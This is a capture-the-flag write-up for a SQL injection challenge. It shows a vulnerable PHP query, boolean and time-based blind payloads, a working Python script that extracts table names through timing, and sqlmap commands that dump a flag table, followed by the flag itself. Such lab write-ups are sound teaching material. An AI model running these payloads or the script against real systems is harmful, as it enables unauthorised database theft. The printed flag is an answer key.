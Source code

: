 # SQL Injection

For this challenge, it asks us to do a sql injection to a form 
## Web First Look :

![image-20240824230451725](images/20.png)

```mysql
$query_string = "SELECT * FROM melody_bu_shi_ji_lao WHERE id = " . $_GET['questionid'];
```

After seing this, I'm testing the most basic injection that is **1 or 1=1** and It printed out all 0-7 output

![image-20240824230451725](images/21.png)

For the next step I then try to inject the time base attack and it work out with this format

```python
1 AND IF(ASCII(SUBSTRING(database(), 1, 1)) = 97, SLEEP(5), 0)
```

and it waited for 5 seconds, meaning the form is vulnerable to time based attacks, next step is to use python to retrieve the name of the database

```python
import requests
import time

# URL of the vulnerable page
url = "http://10.214.160.13:10002/"

# Set the parameter name that is vulnerable
param_name = "questionid"

# Function to extract a single character at a specific position
def extract_character(position, query):
    for ascii_value in range(32, 128):  # ASCII range for printable characters
        # Craft the payload to extract the character
        payload = f"1 AND IF(ASCII(SUBSTRING(({query}), {position}, 1)) = {ascii_value}, SLEEP(5), 0)"
        
        # Prepare the data for the GET request
        params = {param_name: payload}

        # Record the start time
        start_time = time.time()

        # Send the GET request
        response = requests.get(url, params=params)

        # Calculate the elapsed time
        elapsed_time = time.time() - start_time

        # Check if the elapsed time indicates a successful extraction
        if elapsed_time > 4:  # Adjust threshold if necessary
            return chr(ascii_value)
    
    return None

# Function to extract a table name
def extract_table_name(offset):
    query = f"SELECT table_name FROM information_schema.tables WHERE table_schema='aaa_web2' LIMIT 1 OFFSET {offset}"
    table_name = ""
    for position in range(1, 50):  # Assuming table names are less than 50 characters
        character = extract_character(position, query)
        if character:
            table_name += character
            print(f"Extracted character at position {position}: {character}")
        else:
            print(f"No more characters found at position {position}. Extraction complete.")
            break
    return table_name

# Extract all table names
offset = 0
while True:
    table_name = extract_table_name(offset)
    if table_name:
        print(f"Extracted table name: {table_name}")
        offset += 1
    else:
        print("No more tables found.")
        break

```

After running this code, we can see the database name

![image-20240824230451725](images/22.png)

data base name is **aaa_web2**, let's use sql map to retreive the data inside the database, the website gives us clues where the flag is hidden inside the flag_is_here table, 

so the command should be 

```bash
sqlmap -u "http://10.214.160.13:10002/?questionid=1" -D aaa_web2 -T flag_is_here --columns
```

after running this command on terminal, 

![image-20240824230451725](images/23.png)

We extracted 3 column, and now let's extract the column value of flag

```bash
sqlmap -u "http://10.214.160.13:10002/?questionid=1" -D aaa_web2 -T flag_is_here -C flag --dump
```

![image-20240824230451725](images/24.png)

And we receive the flag.

**flag: AAA{welc0me_to_AAA_Congratu1ationS_qq_group_386796080}**
